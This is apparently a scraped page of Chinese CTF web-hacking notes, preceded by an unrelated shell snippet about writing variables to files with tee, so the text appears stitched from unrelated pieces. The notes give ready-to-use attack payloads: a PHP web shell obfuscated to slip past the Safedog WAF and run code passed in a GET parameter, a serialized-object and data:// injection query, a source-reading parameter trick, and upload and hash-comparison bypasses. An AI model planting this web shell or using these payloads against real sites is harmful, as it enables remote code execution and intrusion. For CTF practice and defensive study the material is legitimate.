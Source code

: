 ```sh
tee /path/to/file <<EOF >/dev/null
${variable}
EOF
```
the above can be combined with sudo as well

```sh
sudo -u USER tee /path/to/file <<EOF
${variable}
EOF
```

## 关键字
flag
key
ctf

## Web

### 基本知识

  Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，
  告诉服务器我是从哪个页面链接过来的
### php

未整理

    # 注意看注释，可能有需要提交的字段 
    修改上传格式， burpsuite 抓包，修改
    超长数字--可能时间戳
    看参数
      index.php?line=&filename=a2V5cy50eHQ= ， 这里 line=数字 加 filename=[base64filename] 可以读取源码行
      尝试获取 index.php hint.php flag.php key.php
      ?txt=data://text/plain,welcome to the bugkuctf&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
    
    语句
      ?s=print_r(scandir('./')) , 显示当前目录文件
    
    过狗
      <?php $poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; $poc_2($_GET['s']) ?>

审题

     robots.txt, 
     参数提示 x== ?? 时 =admin

绕过

    md5, sha1 相同，值又不同 ---- 空数组 k[]=1&k2[]=2
    jpg格式绕过:  抓包, Content-Type改成Multipart/form-data大小写绕过, 请求内容里的Content-Type改成image/jpg, 扩展名需要挨个试--除了php5都过滤了。
    